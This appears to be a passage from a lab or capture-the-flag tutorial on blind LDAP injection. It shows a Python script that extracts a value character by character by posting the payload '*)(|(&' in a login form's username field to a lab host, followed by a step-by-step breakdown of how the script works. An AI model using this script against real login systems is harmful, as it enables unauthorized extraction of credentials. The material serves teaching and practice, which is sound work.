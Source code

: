 ```python

        # Adjust data to target the password field
        data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

        # Send POST request with headers
        response = requests.post(url, data=data, headers=headers)

        # Parse HTML content
        soup = BeautifulSoup(response.content, 'html.parser')

        # Adjust success criteria as needed
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"Successful character found: {char}")
            break

    if not successful_response_found:
        print("No successful character found in this iteration.")

print(f"Final successful payload: {successful_chars}")
```

**Click here for a breakdown of the script.**

1. **Imports**:
    - `requests`: A Python library for making HTTP requests.
    - `BeautifulSoup` from `bs4`: A library for parsing HTML documents, making it easier to navigate and search the parse tree.
    - `string`: A module containing common string operations, including a collection of string constants.
    - `time`: A module providing various time-related functions.
2. **Setup**:
    - The `url` variable is set to `'http://10.10.145.164/blind.php'`, which is the target URL where the HTTP POST requests will be sent.
    - `char_set` includes lowercase and uppercase letters, digits, and a selection of special characters. This set represents all the characters the script will iterate over to guess the password.
3. **Variables Initialization**:
    - `successful_response_found` is a flag used to control the while loop. It starts as `True` to enter the loop and is set to `False` when no successful character is found.
    - `successful_chars` stores the sequence of successfully guessed characters.
4. **HTTP Headers**:
    - A dictionary `headers` is defined with the content type set to `'application/x-www-form-urlencoded'`, indicating the body format of the HTTP POST request.
5. **Main Loop**:
    - The script enters a `while` loop that continues as long as `successful_response_found` is `True`.
    - Inside this loop, it iterates over each character in `char_set`.
6. **Crafting and Sending HTTP Requests**:
    - For each character, the script creates a dictionary `data` with a key-value pair intended for the HTTP POST request. The `username` field is injected with a payload combining successfully found characters and the current character being tested, followed by `*)(|(&`, which is part of the injection syntax. The `password` field is arbitrarily set to `'pwd)'`.
    - An HTTP POST request is sent to the target `url` with the crafted `data` and `headers`.
7. **Response Handling**:
    - The response content is parsed with BeautifulSoup to analyze the HTML structure.
    - The script looks for `<p>` tags with a `style` attribute of `'color: green;'`, which is assumed to indicate a successful guess.
8. **Character Verification**:
    - If such paragraphs are found, it means the current character is part of the password. This character is then appended to `successful_chars`, and the script breaks out of the inner loop to test the next character.